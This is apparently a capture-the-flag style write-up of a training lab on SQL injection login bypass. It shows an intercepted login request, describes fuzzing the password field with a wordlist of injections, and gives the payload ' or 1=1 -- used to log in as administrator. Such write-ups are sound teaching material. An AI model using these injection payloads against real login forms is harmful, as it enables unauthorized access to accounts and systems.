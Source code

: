 
<p align="center">
  <img src="./screenshots/sqli_logo.png" alt="sqli_logo"/>
</p>

---

- 🎯 **Target:** SQL injection Lab - vulnerability allowing login bypass
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 05.10.2025
- 📊 **Difficulty:** APPRENTICE

---


## 🔍 Request interception

> SQL injection vulnerability is contained in the login form

![login](./screenshots/login.png)

> I intercept the request in BurpSuite:

```html

POST /login HTTP/2
Host: 0a80000d033a807aafa63b5b003e00d3.web-security-academy.net
Cookie: session=QwKY92EStw5fSX6cRdTzfx9gWuLOQXx3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https://0a80000d033a807aafa63b5b003e00d3.web-security-academy.net
Referer: https://0a80000d033a807aafa63b5b003e00d3.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=z5OAmZIGyksJrEQZSGA4gSBt9IRqMeib&username=sonya&password=hack

```

> To solve this lab, you need to log in as `administrator`. So I change the `username` parameter in the request body and send the request to `Intruder`:

![intruder_pass](./screenshots/intruder_pass.png)

> > I'm trying to brute force the `password` field with standard injections in the form of a small dictionary

> **Note:** I attach the dictionary to the repository (SQLi_wordlist.txt)

> I run brute force and find that one of the answers differs in length from the others:

![intruder_brute](./screenshots/intruder_brute.png)

> Using injection `' or 1=1 --` and logging in as `administrator`

> Result:

![admin_user](./screenshots/admin_user.png)

> I get access to the admin panel

![solved_lab](./screenshots/solved_lab.png)

